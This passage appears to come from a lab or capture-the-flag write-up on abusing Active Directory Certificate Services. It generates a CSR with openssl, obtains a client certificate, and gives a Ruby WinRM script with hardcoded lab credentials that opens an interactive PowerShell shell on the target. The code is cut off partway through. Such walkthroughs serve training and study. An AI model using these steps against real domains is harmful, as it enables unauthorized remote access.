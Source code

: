 But this probably wasn't making any sense to me so visiting this link , it made something clear that ADCS allows you to generate certificate which would make you an authorized user to access internal assests and it could allow to access a service or a rdp connection

https://www.thesecmaster.com/how-to-request-a-certificate-from-windows-adcs/

So before requesting a certificate from ADCS we need to generate a CSR (Certificate Signing Request) file which is basically a signing request for CA (Certificate Authority) that will issue us a certificate considered as a trusted third party , so to generate it we can use `openssl` 

https://www.tecmint.com/generate-csr-certificate-signing-request-in-linux/

```bash
openssl req -new -newkey rsa:2048 -nodes -keyout arz.key -out arz.csr
```

<img src="https://i.imgur.com/wmz4rVV.png"/>

<img src="https://i.imgur.com/5LRmuNF.png"/>

Now that we have a csr file , we need to request for a certificate through this

<img src="https://i.imgur.com/ZaRW94F.png"/>

<img src="https://i.imgur.com/qosoqDM.png"/>

We need to download the certificate in DER format and we could then read the certificate as well

```bash
openssl x509 -inform der -in certnew.cer -noout -text
```

<img src="https://i.imgur.com/PZig1uh.png"/>

Now we need to use this certificate against WinRM but evil-winrm doesn't have this option so we need to use this ruby script to connect to winrm service using the certificate on port 5986

<img src="https://i.imgur.com/v9GVLa7.png"/>

https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb

<img src="https://i.imgur.com/zrxKEEl.png"/>

So our script will look like this 

```ruby
require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'https://10.129.157.36:5986/wsman',
  transport: :ssl,
  :client_cert => 'cert.cer',
  :client_key => 'arz.key',
  user: 'amanda',
  password: 'Ashare1972',
  :no_ssl_peer_verification => true
  
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
```